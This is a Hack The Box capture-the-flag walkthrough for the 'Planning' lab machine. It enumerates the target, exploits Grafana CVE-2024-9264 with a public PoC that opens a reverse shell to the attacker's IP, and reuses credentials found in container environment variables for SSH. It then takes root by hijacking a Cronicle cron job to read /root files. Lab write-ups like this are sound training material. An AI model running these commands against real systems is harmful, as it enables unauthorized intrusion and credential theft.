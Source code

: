 # PLANNING – HTB Walkthrough

## 🧭 Enumeration

We start with a default scripts & version scan:

```bash
nmap -sC -sV 10.10.11.68 -oN nmap/planning_initial
```

Output (abbreviated):

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

Adding the hostnames returned by the web server to **`/etc/hosts`** prevents browser redirection issues:

```bash
echo "10.10.11.68 planning planning.htb" | sudo tee -a /etc/hosts
```

A quick gobuster for vhosts reveals a juicy sub‑domain:

```bash
gobuster vhost -u http://planning.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

→ **`grafana.planning.htb`**

---

## 🔎 grafana.planning.htb – Authenticated RCE (CVE‑2024‑9264)

Grafana ≤10.2.3 is vulnerable to remote command execution after valid login.  A public PoC exists (\[`z3k0sec/CVE-2024-9264-RCE-Exploit`]).

Initial default credentials didn’t work, so we brute‑forced with the wordlist `rockyou.txt` and quickly landed **`admin:admin`** (classic 🫠).

```bash
python3 poc.py --url http://grafana.planning.htb \
               --username admin --password admin \
               --reverse-ip 10.10.15.3 --reverse-port 8888
```

*Login succeeded* → PoC uploads a malicious datasource and triggers it, but times out with **504 Gateway Time‑Out**.  Nevertheless the payload still executes and we catch a **root shell inside the Grafana container**:

```bash
nc -lvnp 8888
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🔐 Escaping Docker – SSH as *enzo*

Inside the container we dump the environment:

```bash
# env | grep GF_SECURITY
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

Those credentials belong to the host system 🧐.  Attempting SSH:

```bash
ssh enzo@planning.htb
Password: RioTecRANDEntANT!
```

Success!  We are now **`enzo`** on the real host.  Grab the user flag:

```bash
enzo@planning:~$ cat user.txt
4e300c8a132b052f2e27b06c95abc39d
```

---

## 🔎 linPEAS → Port 8000 – Cronicle Dashboard

`linpeas.sh` spots a local service on **TCP 8000**.  Via SSH port‑forwarding:

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Visiting `http://127.0.0.1:8000` shows **Cronicle**, a web‑UI for scheduled jobs, protected by HTTP basic‑auth.

Credentials are hiding in `/opt/crontabs/crontab.db`:

```bash
cat /opt/crontabs/crontab.db | jq -r '.command'
# ...zip -P **P4ssw0rdS0pRi0T3c** ...
```

`root : P4ssw0rdS0pRi0T3c` lets us in with full admin rights.

---

## 🧨 Privilege Escalation via Cron Job Hijack

We edit the daily **“Grafana backup”** job and replace its command with our payload:

```bash
cat /root/* > /home/enzo/flags.txt
```

Click **Run Now**.  Seconds later:

```bash
enzo@planning:~$ cat ~/flags.txt | grep root
[REDACTED_ROOT_FLAG]
```

Root compromise achieved 🎉

---

## 🏁 Summary

| Step           | Description                                            |
| -------------- | ------------------------------------------------------ |
| nmap           | Discovered SSH (22) and nginx (80)                     |
| vHost enum     | Found **grafana.planning.htb**                         |
| Grafana RCE    | CVE‑2024‑9264 yields root shell inside Docker          |
| Creds via env  | `GF_SECURITY_ADMIN_USER/PASSWORD` → **SSH as enzo**    |
| linPEAS scan   | Detected Cronicle service on localhost:8000            |
| Cronicle creds | Password extracted from `crontab.db`                   |
| Job hijack     | Modified backup task to read `/root/*` → got root flag |

🎉 **Rooted!**
